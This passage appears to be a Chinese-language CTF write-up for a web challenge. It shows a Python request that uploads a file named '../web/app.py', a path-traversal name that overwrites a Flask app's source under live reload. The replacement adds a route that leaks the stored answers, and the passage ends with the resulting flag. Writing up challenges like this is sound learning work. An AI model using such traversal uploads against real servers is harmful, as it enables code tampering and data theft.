 根据题干中的`启动的完整命令为 flask run --reload --host 0。网站代码运行在 /tmp/web`，可以知道`answer.json`的完整路径且命令里没写指定的文件，那么这段源码的路径就是`/tmp/web/app.py`，且网站实时重载，所以我们只需要上传一个被篡改后的`../web/app.py`的文件即可。

给`app.py`加个路由吧！

```python
@app.route("/yushengjun", methods=["GET"])
def answer():
    with open("answers.json") as f:
        answers = json.load(f)
    # answer + 65 ascii转换
    answers = "".join([chr(i + 65) for i in answers])
    flash(answers)
    return redirect("/")
```

将改完的 python 文件命名为`yushengjun.py`，然后写个请求传上去。

```python
import requests

url = 'https://chal02-xxxxxx.hack-challenge.lug.ustc.edu.cn:8443/submit'
with open('yushengjun.py', 'r', encoding='utf-8') as f:
    file_content = f.read()
files = {'file': ('../web/app.py', file_content)}
response = requests.post(url, files=files)
```

然后访问`/yushengjun`

![alt text](image-15.png)

得到flag: `flag{uno!!!!_esrever_now_U_run_MY_c0de93786e19ba}`

## 动画分享

> 卧 槽 我 手 搓 H T T P 服 务 器
